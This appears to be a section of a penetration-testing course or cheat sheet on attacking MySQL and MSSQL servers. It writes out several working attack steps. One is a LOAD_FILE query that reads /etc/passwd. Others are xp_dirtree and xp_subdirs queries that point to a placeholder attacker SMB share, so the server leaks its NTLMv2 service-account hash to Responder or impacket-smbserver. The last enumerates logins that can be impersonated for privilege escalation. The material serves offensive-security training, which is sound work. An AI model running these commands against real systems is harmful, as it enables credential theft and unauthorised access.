 As we previously mentioned, by default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

#### MySQL - Read Local Files
```shell-session
mysql> select LOAD_FILE("/etc/passwd");
```

### Capture MSSQL Service Hash

We can steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories. When we use one of those stored procedures and point it to our SMB server, the directory listing functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL server.

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

#### XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\<attacker ip>\share\'
2> GO
```

#### XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\<attacker ip>\share\'
2> GO
```

#### XP_SUBDIRS Hash Stealing with Responder
```shell-session
$ sudo responder -I tun0
```

#### XP_SUBDIRS Hash Stealing with Impacket
```shell-session
$ sudo impacket-smbserver share ./ -smb2support
```

### Impersonate Existing Users with MSSQL

SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.

#### Identify Users we Can Impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```
